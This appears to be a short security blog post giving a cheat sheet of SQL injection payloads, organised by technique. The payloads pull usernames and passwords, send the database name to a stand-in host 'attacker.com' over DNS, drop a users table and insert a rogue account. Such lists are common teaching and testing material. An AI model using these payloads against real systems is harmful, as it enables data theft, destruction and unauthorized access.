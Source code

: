 ```yaml
---
layout: post
title: SQL Injection
date: 2025-04-10 17:33 +0300
categories: [Web Security, Server-Side Attacks]
---
```


## Types of SQL Injection

### 1. In-band SQLi
- **Error-based**: Forces database to generate error messages revealing information about the database structure
  ```sql
  ' OR 1=1 -- -
  ' OR '1'='1' -- -
  ') OR ('1'='1
  ```

- **Union-based**: Uses UNION operator to combine results of two SELECT statements
  ```sql
  ' UNION SELECT 1,2,3 -- -
  ' UNION SELECT username,password,3 FROM users -- -
  ```

### 2. Blind SQLi
- **Boolean-based**: Sends true/false questions to database, observing response differences
  ```sql
  ' OR (SELECT 1 FROM users WHERE username='admin' AND LENGTH(password)>5) -- -
  ' OR (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' -- -
  ```

- **Time-based**: Delays response if condition is true
  ```sql
  ' OR (SELECT IF(LENGTH(database())=8,SLEEP(5),0)) -- -
  ' OR IF(SUBSTRING(database(),1,1)='i',SLEEP(5),0) -- -
  ```

### 3. Out-of-band SQLi
- Uses external channels to extract data (DNS, HTTP)
```sql
  ' UNION SELECT LOAD_FILE(CONCAT('\\\\',DATABASE(),'.attacker.com\\file')) -- -
```

### 4. Stacked Queries
- Executes multiple queries in one statement
  ```sql
  '; DROP TABLE users; -- -
  '; INSERT INTO users VALUES ('hacker','password'); -- -
  ```
## Common SQL Injection Techniques
